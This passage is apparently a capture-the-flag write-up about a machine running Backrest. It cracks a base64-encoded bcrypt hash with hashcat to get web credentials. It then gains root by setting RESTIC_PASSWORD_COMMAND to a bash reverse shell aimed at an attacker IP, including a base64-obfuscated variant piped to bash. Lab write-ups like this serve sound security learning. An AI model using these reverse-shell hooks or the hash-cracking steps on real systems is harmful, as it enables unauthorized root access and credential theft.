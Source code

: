We got a `bcrypt` password but it's initially encoded on base64, we need to use hashcat to crack it:

```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d > hash.txt

hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

Nice, we got credentials for the web page:

```
backrest_root:!@#$%^
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250628151732.png)


As seen, we can make repositories:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250628152029.png)

This manages something called `restic`, we can go with two `privilege escalation paths` on here, first, we can exploit the `restic` privesc shown on `gtfobins`:

GTFOBINS: https://gtfobins.github.io/gtfobins/restic/

Or we can speed up the process by creating a malicious hook that will get us a shell as root, as seen on the image, we can create hooks which will execute as commands:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250628152257.png)


Let's create a base repository which will include the following hook and `ENV Var`;

Env vars should be:

```
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'
```

And the hook, should be this:

```
# First we need to base64 this command:

echo "bash -i >& /dev/tcp/10.10.14.180/4444 0>&1" | base64

# Save the base64 string and do:

RESTIC_PASSWORD_COMMAND=echo '<base64>' | base64 -d | bash
```

The repo should look like this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250628152715.png)
